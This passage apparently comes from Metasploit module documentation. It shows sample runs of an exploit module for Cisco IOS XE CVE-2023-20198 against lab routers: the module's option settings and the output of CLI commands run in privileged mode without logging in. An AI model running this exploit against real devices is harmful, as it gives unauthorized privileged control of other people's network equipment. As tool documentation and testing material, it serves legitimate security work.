 ```
This product contains cryptographic features and is subject to United
States and local country laws governing import, export, transfer and
use. Delivery of Cisco cryptographic products does not imply
third-party authority to import, export, distribute or use encryption.
Importers, exporters, distributors and users are responsible for
compliance with U.S. and local country laws. By using this product you
agree to comply with applicable laws and regulations. If you are unable
to comply with U.S. and local laws, return this product immediately.
A summary of U.S. laws governing Cisco cryptographic products may be found at:
http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
If you require further assistance please contact us by sending email to
export@cisco.com.
License Level: ax
License Type: N/A(Smart License Enabled)
Next reload license Level: ax
Smart Licensing Status: UNREGISTERED/No Licenses in Use
cisco CSR1000V (VXE) processor (revision VXE) with 1113574K/3075K bytes of memory.
Processor board ID 9OVFUOGPESO
4 Gigabit Ethernet interfaces
32768K bytes of non-volatile configuration memory.
3012164K bytes of physical memory.
6188032K bytes of virtual hard disk at bootflash:.
0K bytes of WebUI ODM Files at webui:.
Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="show clock"
[*] Running module against 192.168.86.57


*15:24:05.110 UTC Fri Nov 3 2023
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```

### IOS-XE 17.06.05 (C8000v)

```
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options 

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      show version     yes       The CLI command to execute.
   MODE     privileged       yes       The mode to execute the CLI command in, valid values are 'user', 'privileged', or 'global'.
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.108   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.108

Cisco IOS XE Software, Version 17.06.05
Cisco IOS Software [Bengaluru], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 17.6.5, RELEASE SOFTWARE (fc2)
```
